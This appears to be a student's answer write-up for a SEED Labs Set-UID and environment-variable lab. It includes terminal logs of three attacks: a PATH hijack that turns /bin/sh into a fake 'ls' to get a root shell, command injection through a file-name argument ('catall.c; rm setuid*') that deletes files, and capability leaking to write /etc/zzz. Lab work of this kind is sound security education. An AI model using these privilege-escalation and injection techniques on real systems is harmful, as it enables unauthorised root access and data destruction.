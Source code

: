 # Answer in my observation

## Task 2
- When comment out the `printenv()` in Line 1 and uncomment  `printenv()` in Line 2. There's nothing change.

## Task 3
- The original code does not call the `/usr/bin/env` program.
- After changing the line 1 to `execve("/usr/bin/env", argv, environ);`, the program calls the `/usr/bin/env` successfully.

## Task 6
- Because the program doesn't call the specific `ls` command, we can do like this to inject the malicious code to the system.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ nano cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ gcc -o cmd cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chown root cmd
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chmod 4755 cmd
    [03/22/24]seed@VM:~/.../Labsetup$ cp /bin/sh ls
    [03/22/24]seed@VM:~/.../Labsetup$ ls -l
    total 924
    -rw-rw-r-- 1 seed seed    761 Dec 27  2020 cap_leak.c
    -rw-rw-r-- 1 seed seed    471 Feb 19  2021 catall.c
    -rwsr-xr-x 1 root seed  16696 Mar 22 00:05 cmd
    -rw-rw-r-- 1 seed seed     81 Mar 22 00:04 cmd.c
    -rwxr-xr-x 1 seed seed 878288 Mar 22 00:05 ls
    -rw-rw-r-- 1 seed seed    180 Mar 21 11:53 myenv.c
    -rw-rw-r-- 1 seed seed    418 Mar 21 11:34 myprintenv.c
    -rwsr-xr-x 1 root seed  16768 Mar 21 12:27 setuid
    -rw-r--r-- 1 root root    159 Mar 21 12:26 setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ pwd
    /home/seed/Env_SetUID/Labsetup
    [03/22/24]seed@VM:~/.../Labsetup$ export PATH=/home/seed/Env_SetUID/Labsetup:$PATH
    [03/22/24]seed@VM:~/.../Labsetup$ ./cmd 
    VM# id
    uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    VM#
```
- Explain: 
+ The programmer only uses `ls` path to execute the `ls` command instead of using `/bin/ls` path.
+ The `PATH`, which is the environment variable, has the `/usr/bin` path that has the `ls` command.
+ Therefore we can apply this vulnerability of this Set-UID program to privilege escalation, by using file `/bin/sh` and save, rename it into `ls` as executable file. Finally, adding the path that has injected the malicious code file into the beginning of `PATH` environment variable --> OS will call the path contains the malicious file first, then it sees the fake `ls` file and execute it.

## Task 8
### When using `system()`:
- Because the `system()` invoke the shell, therefore we can abuse to run more commands by using this:

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    setuid
    setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'catall.c; rm setuid*' 
    #include <unistd.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    int main(int argc, char *argv[])
    {
    char *v[3];
    char *command;

    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;

    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);

    return 0 ;
    }
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

### When using `execve()`:
- Because `execve()` does not invoke shell, we can't abuse this to execute more commands.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls
    cap_leak.c  cmd                ls        mylibc.o      myprog.c
    catall      cmd.c              myenv.c   myprintenv.c
    catall.c    libmylib.so.1.0.1  mylibc.c  myprog
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'cmd.c; rm cmd*'
    /bin/cat: 'cmd.c; rm cmd*': No such file or directory
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

## Task 9
- We can write to the `/etc/zzz` file by abusing the Capability Leaking, using this:

```console
    root@VM:/home/seed/Env_SetUID/Labsetup# cat /etc/zzz
    Hello, this file is created by user 'root'
    root@VM:/home/seed/Env_SetUID/Labsetup# exit
    exit
    [03/22/24]seed@VM:~/.../Labsetup$ ./cap_leak 
    fd is 3
    $ id                                                                           
    uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    $ echo 'OceanTran999' >&3                                                      
    $ cat /etc/zzz                                                                 
    Hello, this file is created by user 'root'
    OceanTran999
    $ 
```

## References:
1: https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
2: https://juggernaut-sec.com/capabilities/
3: https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/
4: https://man7.org/linux/man-pages/man7/capabilities.7.html
5: https://linux-audit.com/linux-capabilities-101/
6: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#linux-capabilities
